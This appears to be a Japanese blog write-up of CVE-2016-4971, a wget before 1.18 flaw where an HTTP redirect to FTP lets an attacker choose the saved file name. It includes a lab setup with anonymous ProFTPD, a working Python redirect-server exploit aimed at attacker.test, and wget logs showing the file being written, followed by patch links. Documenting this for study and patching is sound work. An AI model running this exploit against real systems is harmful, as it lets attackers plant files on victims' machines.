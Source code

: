 ```yaml
---
layout: post
title:  "CVE-2016-4971 Wgetによる任意のファイルの書き込み"
date:   2016-07-06 10:30:00 +0900
categories: Vulnerability
---
```


## 概要

wget 1.18未満のVersionにはHTTPリダイレクトを用いてFTPリソースから任意のファイル名でファイルを作成される脆弱性があります。

## 攻撃の詳細

以下のようにwgetを用いて攻撃者の管理下にあるファイルを取りにいくと

```
wget http://attacker.test/hoge.txt
```

攻撃者は以下のような30X系のレスポンスを返すことで任意のファイルを被害者のサーバに作成することができる。

```
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Location: ftp://attacker.test/foo.txt
Content-Length: 262
Server: Apache
```

## 検証環境の構築

```
kosuke@scapegoat ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
```

 * 攻撃用サーバにftpサーバを構築する

```
kosuke@attacker ~ $ sudo apt-get install ftp proftpd
```

 * ftpサーバにanonymous loginの設定を行う

```
<Anonymous /tmp/ftp>
  User                          ftp
  Group                         nogroup
  # We want clients to be able to login with "anonymous" as well as "ftp"
  UserAlias                     anonymous ftp
  # Cosmetic changes, all files belongs to ftp user
  DirFakeUser   on ftp
  DirFakeGroup on ftp

  RequireValidShell             off

  # Limit the maximum number of anonymous logins
  MaxClients                    10

  # We want 'welcome.msg' displayed at login, and '.message' displayed
  # in each newly chdired directory.
  DisplayLogin                  welcome.msg
  DisplayChdir          .message

  # Limit WRITE everywhere in the anonymous chroot
  <Directory *>
    <Limit WRITE>
      DenyAll
    </Limit>
  </Directory>

</Anonymous>
```

 * anonymous loginできるかを検証する

```
kosuke@scapegoat ~ $ ftp attacker.test
Connected to attacker.test.
220 ProFTPD 1.3.5 Server (Debian) [::ffff:192.168.10.103]
Name (attacker.test:kosuke): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
```

## 実証

 * 攻撃用のスクリプトを作成

```
#!/usr/bin/python
import http.server
import socketserver

HTTP_PORT = 8000
FTP_HOST = 'attacker.test'
FTP_PORT = 21
FILENAME = 'HACKING.txt'

class wgetExploit(http.server.SimpleHTTPRequestHandler):

    def do_GET(self):
        self.send_response(301)
        ftp_path = '%s'%('ftp://anonymous@%s:%s/%s'%(FTP_HOST, FTP_PORT, FILENAME))
        self.send_header('Location', ftp_path)
        self.end_headers()

httpd = socketserver.TCPServer(("", HTTP_PORT), wgetExploit)
httpd.serve_forever()
```

 * 攻撃用スクリプトを用いてHTTPサーバを起動する

```
kosuke@attacker ~ $ python --version
Python 3.5.1
kosuke@attacker ~ $ python exploit.py
```

 * scapegoat.testでwgetを実行しHACKING.txtが作成されることを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000
--2016-07-06 16:39:36--  http://attacker.test:8000/
attacker.test (attacker.test) をDNSに問いあわせています... 127.0.0.1
attacker.test (attacker.test)|127.0.0.1|:8000 に接続しています... 接続しました。
HTTP による接続要求を送信しました、応答を待っています... 301 Moved Permanently
場所: ftp://anonymous@attacker.test:21/HACKING.txt [続く]
--2016-07-06 16:39:36--  ftp://anonymous@attacker.test/HACKING.txt
           => `HACKING.txt'
attacker.test (attacker.test)|127.0.0.1|:21 に接続しています... 接続しました。
anonymous としてログインしています... ログインしました!
==> SYST ... 完了しました。    ==> PWD ... 完了しました。
==> TYPE I ... 完了しました。  ==> CWD は必要ありません。
==> SIZE HACKING.txt ... 8
==> PASV ... 完了しました。    ==> RETR HACKING.txt ... 完了しました。
長さ: 8 (確証はありません)

HACKING.txt             100%[=================================>]       8  --.-KB/s 時間 0s

2016-07-06 16:39:36 (53.6 KB/s) - `HACKING.txt' へ保存終了 [8]

kosuke@attacker ~ $ cat HACKING.txt
HACKING
```

 * サーバレスポンスを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000 --server-response
--2016-07-06 16:40:45--  http://attacker.test:8000/
attacker.test (attacker.test) をDNSに問いあわせています... 127.0.0.1
attacker.test (attacker.test)|127.0.0.1|:8000 に接続しています... 接続しました。
HTTP による接続要求を送信しました、応答を待っています...
  HTTP/1.0 301 Moved Permanently
  Server: SimpleHTTP/0.6 Python/3.5.1
  Date: Wed, 06 Jul 2016 07:40:45 GMT
  Location: ftp://anonymous@attacker.test:21/HACKING.txt
場所: ftp://anonymous@attacker.test:21/HACKING.txt [続く]
--2016-07-06 16:40:45--  ftp://anonymous@attacker.test/HACKING.txt
           => `HACKING.txt.1'
attacker.test (attacker.test)|127.0.0.1|:21 に接続しています... 接続しました。
anonymous としてログインしています...
220 ProFTPD 1.3.5 Server (Debian) [::ffff:127.0.0.1]
--> USER anonymous

331 Anonymous login ok, send your complete email address as your password
--> PASS Turtle Power!

230 Anonymous access granted, restrictions apply
--> SYST

215 UNIX Type: L8
--> PWD

257 "/" is the current directory
--> TYPE I

200 Type set to I
==> CWD は必要ありません。
--> SIZE HACKING.txt

213 8
--> PASV

227 Entering Passive Mode (127,0,0,1,229,203).
--> RETR HACKING.txt

150 Opening BINARY mode data connection for HACKING.txt (8 bytes)
長さ: 8 (確証はありません)

HACKING.txt.1           100%[=================================>]       8  --.-KB/s 時間 0s

226 Transfer complete
2016-07-06 16:40:45 (30.7 KB/s) - `HACKING.txt.1' へ保存終了 [8]
```

## パッチ情報

 * https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2016-4971
 * https://security-tracker.debian.org/tracker/CVE-2016-4971

## 参考文献

 * https://blogs.securiteam.com/index.php/archives/2701
 * https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-4971
 * http://docs.python.jp/3/library/http.server.html


